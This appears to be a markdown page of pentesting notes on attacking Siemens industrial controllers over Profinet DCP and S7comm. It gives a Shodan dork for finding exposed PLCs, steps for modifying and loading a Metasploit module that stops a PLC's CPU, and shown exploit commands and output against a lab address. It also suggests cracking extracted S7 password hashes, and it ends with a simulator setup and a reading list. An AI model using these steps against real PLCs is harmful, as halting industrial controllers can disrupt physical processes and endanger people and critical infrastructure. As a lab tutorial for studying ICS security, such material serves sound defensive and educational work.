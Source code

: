 ## Profinet DCP

Approach?:

Use **profinet_scanner.py** to detect devices using profinet then use Simatec Step 7 programming softwatre to rewrite configurations on PLC! 

Tools source: https://github.com/Boxbop/scada-tools

Simatec Step 7 Software: [offline]

## S7comm

Wireshark wiki s7comm: https://wiki.wireshark.org/S7comm

Shodan dork: *port:102*

There should be also some metasploit modules:

```
$ searchsploit Siemens Simatic S7
```
Add exploit *19831.rb* to metasploit:

Metasploit comes with a ton of exploits already included; however, this Siemens exploit needs to be added. As the exploit was written with the usage of Metasploit in mind, this is a simple task. To add the module, run the following commands on the Kali Linux VM:

To adjust for using a newer Metasploit framework, we need to change the same code in the 19831.rb file. In the file take a look on the line 39:

```OptInt.new('MODE', [false, 'Set true to put the CPU back into RUN mode.',false]),```

Change the preceding to this:

```OptInt.new('MODE', [false, 'Mode 1 to Stop CPU. Set Mode to 2 to put the CPU back into RUN mode.',1]),```

Now copy module to msf user directory:

```
$ cd ~/.msf4/modules/
~/.msf4/modules $ mkdir -p auxiliary/hardware/scada
~/.msf4/modules $ cd auxiliary/hardware/scada
~/.msf4/modules/auxiliary/hardware/scada $ cp /usr/share/exploitdb/platforms/hardware/remote/19831.rb 19831.rb
~/.msf4/modules/auxiliary/hardware/scada $ service postgresql start
~/.msf4/modules/auxiliary/hardware/scada $ msfconsole
```

Now go with metasploit:

```
msf > reload_all
msf > search siemens
msf > use auxiliary/hardware/scada/19831
msf auxiliary(19831) > show options
msf auxiliary(19831) > set RHOSTS 172.16.252.134
RHOSTS => 172.16.252.134
msf auxiliary(19831) > exploit
[+] 172.16.252.134 PLC is running, iso-tsap port is open.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
On newer Siemens devices, they added a password for certain actions! Use *s7_password_hashes_extractor.py* to extract hash and crack it online!

### Siemens S7 PLC simulator

If you wanna play around, you can install an S7 simulator written on python:


1. Download *snap7-full-x.x.x.zip*: https://osdn.net/projects/sfnet_snap7/downloads/1.4.0/snap7-full-1.4.0.zip/

2. Unzip with name snap7-full in ~/

3. Execute the following commands

```
$ cd ~/snap7-full
$ sudo apt-get install python-pip
$ sudo -H pip install python-snap7
$ cd build/unix
$ make -f x86_64_linux.mk
$ cd ../bin/x86_64-linux/
$ sudo cp libsnap7.so /usr/lib
$ sudo ldconfig
$ sudo python
>>> import snap7
>>> s7server = snap7.server.Server()
>>> s7server.create()
>>> s7server.start()
>>> s7server.get_status()
('SrvRunning', 'S7CpuStatusRun', 0)
>>>
```

Now the simulator is ready!

PS: I use Ubuntu 16 on a VM.

### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * **Cybersecurity for Industrial Control Systems: SCADA, DCS, PLC, HMI, and SIS** by *T. Macaulay, B. L. Singer*
